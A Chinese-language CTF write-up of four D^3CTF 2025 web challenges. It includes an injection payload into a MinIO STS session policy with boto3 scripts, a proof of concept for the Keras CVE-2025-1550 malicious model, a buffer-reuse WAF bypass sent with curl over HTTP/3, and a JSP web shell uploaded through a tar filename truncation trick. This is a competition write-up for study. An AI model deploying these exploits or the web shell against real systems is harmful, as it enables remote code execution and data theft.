

Web
d3invitation
第一次在大赛中拿到血，纪念一下（新手就是爱记录
这是一个利用minio作为oss来储存用户头像的一个生成邀请函的服务
可以看到/static/js/tools.js
1function generateInvitation(user_id, avatarFile) {
2 if (avatarFile) {
3 object_name = avatarFile.name;
4 genSTSCreds(object_name)
5 .then(credsData => {
6 return putAvatar(
7 credsData.access_key_id,
8 credsData.secret_access_key,
9 credsData.session_token,
10 object_name,
11 avatarFile
12 ).then(() => {
13 navigateToInvitation(
14 user_id,
15 credsData.access_key_id,
16 credsData.secret_access_key,
17 credsData.session_token,
18 object_name
19 )
20 })
21 })
22 .catch(error => {
23 console.error('Error generating STS credentials or uploading avatar:', error);
24 });
25 } else {
26 navigateToInvitation(user_id);
27 }
28}
29
30
31function navigateToInvitation(user_id, access_key_id, secret_access_key, session_token, object_name) {
32 let url = `invitation?user_id=${encodeURIComponent(user_id)}`;
33
34 if (access_key_id) {
35 url += `&access_key_id=${encodeURIComponent(access_key_id)}`;
36 }
37
38 if (secret_access_key) {
39 url += `&secret_access_key=${encodeURIComponent(secret_access_key)}`;
40 }
41
42 if (session_token) {
43 url += `&session_token=${encodeURIComponent(session_token)}`;
44 }
45
46 if (object_name) {
47 url += `&object_name=${encodeURIComponent(object_name)}`;
48 }
49
50 window.location.href = url;
51}
52
53
54function genSTSCreds(object_name) {
55 return new Promise((resolve, reject) => {
56 const genSTSJson = {
57 "object_name": object_name
58 }
59
60 fetch('/api/genSTSCreds', {
61 method: 'POST',
62 headers: {
63 'Content-Type': 'application/json'
64 },
65 body: JSON.stringify(genSTSJson)
66 })
67 .then(response => {
68 if (!response.ok) {
69 throw new Error('Network response was not ok');
70 }
71 return response.json();
72 })
73 .then(data => {
74 resolve(data);
75 })
76 .catch(error => {
77 reject(error);
78 });
79 });
80}
81
82function getAvatarUrl(access_key_id, secret_access_key, session_token, object_name) {
83 return `/api/getObject?access_key_id=${encodeURIComponent(access_key_id)}&secret_access_key=${encodeURIComponent(secret_access_key)}&session_token=${encodeURIComponent(session_token)}&object_name=${encodeURIComponent(object_name)}`
84}
85
86function putAvatar(access_key_id, secret_access_key, session_token, object_name, avatar) {
87 return new Promise((resolve, reject) => {
88 const formData = new FormData();
89 formData.append('access_key_id', access_key_id);
90 formData.append('secret_access_key', secret_access_key);
91 formData.append('session_token', session_token);
92 formData.append('object_name', object_name);
93 formData.append('avatar', avatar);
94
95 fetch('/api/putObject', {
96 method: 'POST',
97 body: formData
98 })
99 .then(response => {
100 if (!response.ok) {
101 throw new Error('Network response was not ok');
102 }
103 return response.json();
104 })
105 .then(data => {
106 resolve(data);
107 })
108 .catch(error => {
109 reject(error);
110 });
111 });
112}
我们可以看到这里有三个接口
genSTSCreds：传入object_name参数并返回对应的临时凭证putAvatar：传入genSTSCreds中返回的临时凭证，并使用临时凭证将用户头像上传到指定位置navigateToInvitation：使用临时凭证获取已上传的头像资源
抓个包看看
session_token是jwt，分析一下它的载荷
可以看到sessionPolicy，解码后如下
1{
2 "Version": "2012-10-17",
3 "Statement": [
4 {
5 "Effect": "Allow",
6 "Action": [
7 "s3:GetObject",
8 "s3:PutObject"
9 ],
10 "Resource": [
11 "arn:aws:s3:::d3invitation/1.png"
12 ]
13 }
14 ]
15}
也就是说生成的临时凭证只有对d3invitation桶特定文件的读写权限，并不能进行其他操作
那我们很自然就可以想到，如果我们可以伪造session_token的话，那我们就可以拿到minio的更高的权限
尝试过爆破jwt的key无果后，想到了在/api/genSTSCreds处传入的object_name，如果后端没有对传入的object_name进行任何过滤，那我们可以考虑通过构造闭合的方式去生成具有更高权限的session_token
首先生成具有列出所有桶权限的临时凭证
POST /api/genSTSCreds HTTP/1.1
Host: 34.150.83.54:32016
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Origin: http://34.150.83.54:32016
Content-Type: application/json
Referer: http://34.150.83.54:32016/
Accept-Encoding: gzip, deflate
Content-Length: 49
{"object_name":"*\"]},{\"Effect\":\"Allow\",\"Action\":[\"s3:ListAllMyBuckets\"],\"Resource\":[\"*"}
脚本
1import boto3
2from botocore.config import Config
3
4def list_buckets_minio(access_key, secret_key, session_token, endpoint):
5 s3 = boto3.client(
6 's3',
7 aws_access_key_id=access_key,
8 aws_secret_access_key=secret_key,
9 aws_session_token=session_token,
10 endpoint_url=f'http://{endpoint}',
11 region_name='us-east-1',
12 config=Config(signature_version='s3v4')
13 )
14
15 try:
16 response = s3.list_buckets()
17 print("Buckets:")
18 for bucket in response.get('Buckets', []):
19 print(f" - {bucket['Name']}")
20 except Exception as e:
21 print("Error listing buckets:", e)
22
23access_key = "EJW7QZ7O3TUSJ2QSZ3WD"
24secret_key = "QLrnmCC+G5pmYZy+3XVd7GGy6C2wloo1bmeIgBKa"
25session_token = "eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhY2Nlc3NLZXkiOiJFSlc3UVo3TzNUVVNKMlFTWjNXRCIsImV4cCI6MTc0ODg0ODUxMiwicGFyZW50IjoiQjlNMzIwUVhIRDM4V1VSMk1JWTMiLCJzZXNzaW9uUG9saWN5IjoiZXlKV1pYSnphVzl1SWpvaU1qQXhNaTB4TUMweE55SXNJbE4wWVhSbGJXVnVkQ0k2VzNzaVJXWm1aV04wSWpvaVFXeHNiM2NpTENKQlkzUnBiMjRpT2xzaWN6TTZSMlYwVDJKcVpXTjBJaXdpY3pNNlVIVjBUMkpxWldOMElsMHNJbEpsYzI5MWNtTmxJanBiSW1GeWJqcGhkM002Y3pNNk9qcGtNMmx1ZG1sMFlYUnBiMjR2S2lKZGZTeDdJa1ZtWm1WamRDSTZJa0ZzYkc5M0lpd2lRV04wYVc5dUlqcGJJbk16T2t4cGMzUkJiR3hOZVVKMVkydGxkSE1pWFN3aVVtVnpiM1Z5WTJVaU9sc2lLaW9pWFgxZGZRPT0ifQ.Z-GUStP_AUviss3ykVrTN4Z8jo6wc_64UDmPMLz9rsG7yXyYzGpYSl5CPjHqUeyH-NtwKz6GVdxVY7Wl69VVzA"
26endpoint = "34.150.83.54:30847"
27
28list_buckets_minio(access_key, secret_key, session_token, endpoint)
看到flag桶
接着拿具有读写flag桶的权限的临时凭证
POST /api/genSTSCreds HTTP/1.1
Host: 34.150.83.54:32016
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Origin: http://34.150.83.54:32016
Content-Type: application/json
Referer: http://34.150.83.54:32016/
Accept-Encoding: gzip, deflate
Content-Length: 49
{"object_name":"*\"]},{\"Effect\":\"Allow\",\"Action\":[\"s3:ListAllMyBuckets\"],\"Resource\":[\"*\"]},{\"Effect\":\"Allow\",\"Action\":[\"s3:GetObject\",\"s3:PutObject\"],\"Resource\":[\"arn:aws:s3:::flag/*\"]},{\"Effect\":\"Allow\",\"Action\":[\"s3:ListBucket\"],\"Resource\":[\"arn:aws:s3:::flag"}
下载flag桶中的flag文件
1import boto3
2from botocore.exceptions import ClientError
3from botocore.config import Config
4
5
6def download_flag_file(access_key, secret_key, session_token, endpoint, bucket, object_name, download_path):
7 session = boto3.session.Session()
8 s3 = session.client(
9 service_name='s3',
10 endpoint_url=endpoint,
11 aws_access_key_id=access_key,
12 aws_secret_access_key=secret_key,
13 aws_session_token=session_token,
14 config=Config(signature_version='s3v4'),
15 region_name='us-east-1'
16 )
17
18 try:
19 s3.download_file(bucket, object_name, download_path)
20 print(f"成功下载 {object_name} 到 {download_path}")
21 except ClientError as e:
22 print(f"下载失败: {e}")
23
24
25access_key = "DOKEJJ3SV9WHIZ7AP7VT"
26secret_key = "NsEDTlRTJx7d3Bg7dNhusbzZPHwOiu8wy4l1CuGZ"
27session_token = "eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhY2Nlc3NLZXkiOiJET0tFSkozU1Y5V0hJWjdBUDdWVCIsImV4cCI6MTc0ODg0OTY0MSwicGFyZW50IjoiQjlNMzIwUVhIRDM4V1VSMk1JWTMiLCJzZXNzaW9uUG9saWN5IjoiZXlKV1pYSnphVzl1SWpvaU1qQXhNaTB4TUMweE55SXNJbE4wWVhSbGJXVnVkQ0k2VzNzaVJXWm1aV04wSWpvaVFXeHNiM2NpTENKQlkzUnBiMjRpT2xzaWN6TTZSMlYwVDJKcVpXTjBJaXdpY3pNNlVIVjBUMkpxWldOMElsMHNJbEpsYzI5MWNtTmxJanBiSW1GeWJqcGhkM002Y3pNNk9qcGtNMmx1ZG1sMFlYUnBiMjR2S2lKZGZTeDdJa1ZtWm1WamRDSTZJa0ZzYkc5M0lpd2lRV04wYVc5dUlqcGJJbk16T2t4cGMzUkJiR3hOZVVKMVkydGxkSE1pWFN3aVVtVnpiM1Z5WTJVaU9sc2lLaW9pWFgwc2V5SkZabVpsWTNRaU9pSkJiR3h2ZHlJc0lrRmpkR2x2YmlJNld5SnpNenBIWlhSUFltcGxZM1FpTENKek16cFFkWFJQWW1wbFkzUWlYU3dpVW1WemIzVnlZMlVpT2xzaVlYSnVPbUYzY3pwek16bzZPbVpzWVdjdktpSmRmU3g3SWtWbVptVmpkQ0k2SWtGc2JHOTNJaXdpUVdOMGFXOXVJanBiSW5Nek9reHBjM1JDZFdOclpYUWlYU3dpVW1WemIzVnlZMlVpT2xzaVlYSnVPbUYzY3pwek16bzZPbVpzWVdjaVhYMWRmUT09In0.SGSy7B9yKtxDgiviY68uWFSEWGm7Etw7LplNQaUMezdcG_iOhmg9WBHGPabj7iDyuM645heMx3p8s7LDFEOTww"
28endpoint = "http://34.150.83.54:30847"
29
30download_flag_file(access_key, secret_key, session_token, endpoint,"flag","flag", "./flag")
d3model
源码
1import keras
2from flask import Flask, request, jsonify
3import os
4
5
6def is_valid_model(modelname):
7 try:
8 keras.models.load_model(modelname)
9 except:
10 return False
11 return True
12
13app = Flask(__name__)
14
15@app.route('/', methods=['GET'])
16def index():
17 return open('index.html').read()
18
19
20@app.route('/upload', methods=['POST'])
21def upload_file():
22 if 'file' not in request.files:
23 return jsonify({'error': 'No file part'}), 400
24
25 file = request.files['file']
26
27 if file.filename == '':
28 return jsonify({'error': 'No selected file'}), 400
29
30 MAX_FILE_SIZE = 50 * 1024 * 1024 # 50MB
31 file.seek(0, os.SEEK_END)
32 file_size = file.tell()
33 file.seek(0)
34
35 if file_size > MAX_FILE_SIZE:
36 return jsonify({'error': 'File size exceeds 50MB limit'}), 400
37
38 filepath = os.path.join('./', 'test.keras')
39 if os.path.exists(filepath):
40 os.remove(filepath)
41 file.save(filepath)
42
43 if is_valid_model(filepath):
44 return jsonify({'message': 'Model is valid'}), 200
45 else:
46 return jsonify({'error': 'Invalid model file'}), 400
47
48if __name__ == '__main__':
49 app.run(host='0.0.0.0', port=5000)
requirements.txt
keras==3.8.0
flask
tensorflow
就是个CVE复现

POC
https://blog.huntr.com/inside-cve-2025-1550-remote-code-execution-via-keras-models
1import zipfile
2import json
3from keras.models import Sequential
4from keras.layers import Dense
5import numpy as np
6
7model_name="model.keras"
8
9x_train = np.random.rand(100, 28*28)
10y_train = np.random.rand(100)
11
12model = Sequential([Dense(1, activation='linear', input_dim=28*28)])
13
14model.compile(optimizer='adam', loss='mse')
15model.fit(x_train, y_train, epochs=5)
16model.save(model_name)
17
18with zipfile.ZipFile(model_name,"r") as f:
19 config=json.loads(f.read("config.json").decode())
20
21config["config"]["layers"][0]["module"]="keras.models"
22config["config"]["layers"][0]["class_name"]="Model"
23config["config"]["layers"][0]["config"]={
24 "name":"mvlttt",
25 "layers":[
26 {
27 "name":"mvlttt",
28 "class_name":"function",
29 "config":"Popen",
30 "module": "subprocess",
31 "inbound_nodes":[{"args":[["touch","/tmp/1337"]],"kwargs":{"bufsize":-1}}]
32 }],
33 "input_layers":[["mvlttt", 0, 0]],
34 "output_layers":[["mvlttt", 0, 0]]
35 }
36
37with zipfile.ZipFile(model_name, 'r') as zip_read:
38 with zipfile.ZipFile(f"tmp.{model_name}", 'w') as zip_write:
39 for item in zip_read.infolist():
40 if item.filename != "config.json":
41 zip_write.writestr(item, zip_read.read(item.filename))
42
43os.remove(model_name)
44os.rename(f"tmp.{model_name}",model_name)
45
46
47with zipfile.ZipFile(model_name,"a") as zf:
48 zf.writestr("config.json",json.dumps(config))
49
50print("[+] Malicious model ready")
题目不出网，把flag写到静态目录就好了
tidy quic
main.go
1package main
2
3import (
4 "bytes"
5 "errors"
6 "github.com/libp2p/go-buffer-pool"
7 "github.com/quic-go/quic-go/http3"
8 "io"
9 "log"
10 "net/http"
11 "os"
12)
13
14var p pool.BufferPool
15var ErrWAF = errors.New("WAF")
16
17func main() {
18 go func() {
19 err := http.ListenAndServeTLS(":8080", "./server.crt", "./server.key", &mux{})
20 log.Fatalln(err)
21 }()
22 go func() {
23 err := http3.ListenAndServeQUIC(":8080", "./server.crt", "./server.key", &mux{})
24 log.Fatalln(err)
25 }()
26 select {}
27}
28
29type mux struct {
30}
31
32func (*mux) ServeHTTP(w http.ResponseWriter, r *http.Request) {
33 if r.Method == http.MethodGet {
34 _, _ = w.Write([]byte("Hello D^3CTF 2025,I'm tidy quic in web."))
35 return
36 }
37 if r.Method != http.MethodPost {
38 w.WriteHeader(400)
39 return
40 }
41
42 var buf []byte
43 length := int(r.ContentLength)
44 if length == -1 {
45 var err error
46 buf, err = io.ReadAll(textInterrupterWrap(r.Body))
47 if err != nil {
48 if errors.Is(err, ErrWAF) {
49 w.WriteHeader(400)
50 _, _ = w.Write([]byte("WAF"))
51 } else {
52 w.WriteHeader(500)
53 _, _ = w.Write([]byte("error"))
54 }
55 return
56 }
57 } else {
58 buf = p.Get(length)
59 defer p.Put(buf)
60 rd := textInterrupterWrap(r.Body)
61 i := 0
62 for {
63 n, err := rd.Read(buf[i:])
64 if err != nil {
65 if errors.Is(err, io.EOF) {
66 break
67 } else if errors.Is(err, ErrWAF) {
68 w.WriteHeader(400)
69 _, _ = w.Write([]byte("WAF"))
70 return
71 } else {
72 w.WriteHeader(500)
73 _, _ = w.Write([]byte("error"))
74 return
75 }
76 }
77 i += n
78 }
79 }
80 if !bytes.HasPrefix(buf, []byte("I want")) {
81 _, _ = w.Write([]byte("Sorry I'm not clear what you want."))
82 return
83 }
84 item := bytes.TrimSpace(bytes.TrimPrefix(buf, []byte("I want")))
85 if bytes.Equal(item, []byte("flag")) {
86 _, _ = w.Write([]byte(os.Getenv("FLAG")))
87 } else {
88 _, _ = w.Write(item)
89 }
90}
91
92type wrap struct {
93 io.ReadCloser
94 ban []byte
95 idx int
96}
97
98func (w *wrap) Read(p []byte) (int, error) {
99 n, err := w.ReadCloser.Read(p)
100 if err != nil && !errors.Is(err, io.EOF) {
101 return n, err
102 }
103 for i := 0; i < n; i++ {
104 if p[i] == w.ban[w.idx] {
105 w.idx++
106 if w.idx == len(w.ban) {
107 return n, ErrWAF
108 }
109 } else {
110 w.idx = 0
111 }
112 }
113 return n, err
114}
115
116func textInterrupterWrap(rc io.ReadCloser) io.ReadCloser {
117 return &wrap{
118 rc, []byte("flag"), 0,
119 }
120}
这道题的关键点在于该服务使用了缓存复用机制：处理请求时从公共 buffer 池中按 Content-Length 获取缓存，但使用后并未清空内容就放回池中，导致缓存可能保留上次请求的数据。WAF 检测的是当前请求读取到的内容，而真正用于判断是否返回 flag 的是完整的 buffer 内容。攻击者可以先发送如 I want flag，填满 buffer 并触发 WAF 拦截，但缓存内容被保留。随后发送 I want fla，设置相同的 Content-Length，使读取内容未填满 buffer，残留上次的 g 被拼接成 I want flag，绕过 WAF 检测，从而成功获取 flag。
HTTP3可以用curl发包
Pyload
curl -k --http3 -X POST https://35.241.98.126:30834 --data "I want flag"
curl -k --http3 -X POST https://35.241.98.126:30834 --data "I want fla" -H "Content-Length: 11"
d3jtar
d3.example.controller.MainController
1package d3.example.controller;
2
3import d3.example.utils.BackUp;
4import d3.example.utils.Upload;
5import java.io.File;
6import java.io.IOException;
7import java.nio.file.Paths;
8import java.util.Arrays;
9import java.util.HashSet;
10import java.util.Objects;
11import java.util.Set;
12import javax.servlet.http.HttpServletRequest;
13import org.springframework.stereotype.Controller;
14import org.springframework.util.ResourceUtils;
15import org.springframework.web.bind.annotation.GetMapping;
16import org.springframework.web.bind.annotation.PostMapping;
17import org.springframework.web.bind.annotation.RequestParam;
18import org.springframework.web.bind.annotation.ResponseBody;
19import org.springframework.web.multipart.MultipartFile;
20import org.springframework.web.servlet.ModelAndView;
21
22@Controller
23/* loaded from: d3jtar (1).war:WEB-INF/classes/d3/example/controller/MainController.class */
24public class MainController {
25 @GetMapping({"/view"})
26 public ModelAndView view(@RequestParam String page, HttpServletRequest request) {
27 if (page.matches("^[a-zA-Z0-9-]+$")) {
28 String viewPath = "/WEB-INF/views/" + page + ".jsp";
29 String realPath = request.getServletContext().getRealPath(viewPath);
30 File jspFile = new File(realPath);
31 if (realPath != null && jspFile.exists()) {
32 return new ModelAndView(page);
33 }
34 }
35 ModelAndView mav = new ModelAndView("Error");
36 mav.addObject("message", "The file don't exist.");
37 return mav;
38 }
39
40 @PostMapping({"/Upload"})
41 @ResponseBody
42 public String UploadController(@RequestParam MultipartFile file) {
43 try {
44 Set<String> blackList = new HashSet<>(Arrays.asList("jsp", "jspx", "jspf", "jspa", "jsw", "jsv", "jtml", "jhtml", "sh", "xml", ResourceUtils.URL_PROTOCOL_WAR, ResourceUtils.URL_PROTOCOL_JAR));
45 String filePath = Upload.secureUpload(file, "webapps/ROOT/WEB-INF/views", blackList);
46 return "Upload Success: " + filePath;
47 } catch (Upload.UploadException e) {
48 return "The file is forbidden: " + e;
49 }
50 }
51
52 @PostMapping({"/BackUp"})
53 @ResponseBody
54 public String BackUpController(@RequestParam String op) {
55 if (Objects.equals(op, "tar")) {
56 try {
57 BackUp.tarDirectory(Paths.get("backup.tar", new String[0]), Paths.get("webapps/ROOT/WEB-INF/views", new String[0]));
58 return "Success !";
59 } catch (IOException e) {
60 return "Failure : tar Error";
61 }
62 }
63 if (Objects.equals(op, "untar")) {
64 try {
65 BackUp.untar(Paths.get("webapps/ROOT/WEB-INF/views", new String[0]), Paths.get("backup.tar", new String[0]));
66 return "Success !";
67 } catch (IOException e2) {
68 return "Failure : untar Error";
69 }
70 }
71 return "Failure : option Error";
72 }
73}
Controller中可以看到三个路由
/view路由可以加载view目录下的jsp文件/Upload路由中可以进行文件上传/BackUp路由可以对/view目录进行压缩和解压
这道题的漏洞点在于这个压缩函数tarDirectory
我们跟进这个putNextEntry
out.putNextEntry(new TarEntry(entry.toFile(), relativeName));
接着跟进writeEntryHeader
可以走到org.kamranzafar.jtar.TarHeader的getNameBytes函数
buf[offset + i] = (byte) name.charAt(i);
将 char 强制转为 byte，只保留低 8 位，也就是说我们可以构造出高位与目标字节不同，但是低位等于目标字节的 char来绕过文件上传的 WAF。如
j -> \u006A
浪 -> \u6D6A
经过压缩和解压后，由于只保留了低位，所以最终浪会转换成j
上传jsp马1.浪sp
1<%@ page import="java.io.*" %>
2<%
3 String cmd = request.getParameter("cmd");
4 if (cmd != null) {
5 Process p = Runtime.getRuntime().exec(cmd);
6 OutputStream os = response.getOutputStream();
7 InputStream in = p.getInputStream();
8 int a;
9 while ((a = in.read()) != -1) {
10 os.write(a);
11 }
12 in.close();
13 os.flush();
14 }
15%>
环境变量中拿到flag